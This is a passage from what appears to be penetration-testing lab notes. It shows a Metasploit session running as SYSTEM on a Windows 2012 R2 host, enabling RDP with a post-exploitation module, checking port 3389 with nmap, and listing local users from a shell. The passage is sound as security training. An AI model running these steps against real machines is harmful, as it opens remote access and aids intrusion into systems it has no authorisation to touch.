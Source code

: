 ```bash
sysinfo
    Computer        : WIN-OMCNBKR66MN
    OS              : Windows 2012 R2 (6.3 Build 9600).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 0
    Meterpreter     : x86/windows

getuid
	Server username: NT AUTHORITY\SYSTEM

background
```

### Enable RDP

```bash
search enable_rdp
use post/windows/manage/enable_rdp
options
sessions
set SESSION 1
run
```

![Metasploit - post/windows/manage/enable_rdp](.gitbook/assets/image-20230419225404062.png)

```bash
# Verify port 3389 is open
db_nmap -p 3389 10.2.21.205
```

```bash
3389/tcp open  ms-wbt-server
```

- To access RDP, login credentials are necessary

```bash
sessions
sessions 1
shell
net users
	Administrator Guest
```
